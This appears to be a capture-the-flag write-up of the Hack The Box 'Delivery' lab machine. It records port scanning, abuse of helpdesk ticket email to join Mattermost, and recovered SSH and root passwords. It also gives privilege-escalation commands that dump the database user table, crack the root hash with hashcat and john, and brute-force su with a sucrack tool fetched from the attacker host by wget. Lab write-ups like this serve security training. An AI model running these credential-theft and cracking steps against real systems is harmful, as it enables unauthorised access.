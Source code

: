 ----------------------------------------------------
# Author -> Shubham Rannpise
----------------------------------------------------
# Delivery
# 27/3/2023
10.10.10.222

----------------------------------------------------
# nmap
----------------------------------------------------
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp open  http    nginx 1.14.2
8065/tcp open  unknown

----------------------------------------------------
# enum/exploitation
----------------------------------------------------
└─$ sudo nano /etc/hosts            
10.10.10.222 delivery.htb helpdesk.delivery.htb
http://helpdesk.delivery.htb/


open a tickit
after that
You may check the status of your ticket, by navigating to the Check Status page using ticket id: 4844622.
If you want to add more information to your ticket, just email 4844622@delivery.htb.
http://10.10.10.222:8065/login
http://10.10.10.222:8065/signup_email nnow create mail with
4844622@delivery.htb
login to mattermost
we got ssh creds
maildeliverer:Youve_G0t_Mail! 

----------------------------------------------------
# privesc
----------------------------------------------------
cat /opt/mattermost/config/config.json
mysql -u mmuser -p
use mattermost;
select * from Users;
echo PleaseSubscribe! | hashcat -r /usr/share/hashcat/rules/best64.rule --stdout
brutforce with that wordlist for root
john root_hash --wordlist=wordlist

        method 2

git clone https://github.com/hemp3l/sucrack
rm -rf sucrack/.git/
zip sucrack.zip -r sucrack/
wget 10.10.14.4/sucrack.zip
unzip sucrack.zip
cd /dev/shm/sucrack/
./configure
make
/dev/shm/sucrack/src/sucrack -a -w 20 -s 10 -u root -rl AFLafld /dev/shm/wordlist

root:PleaseSubscribe!21
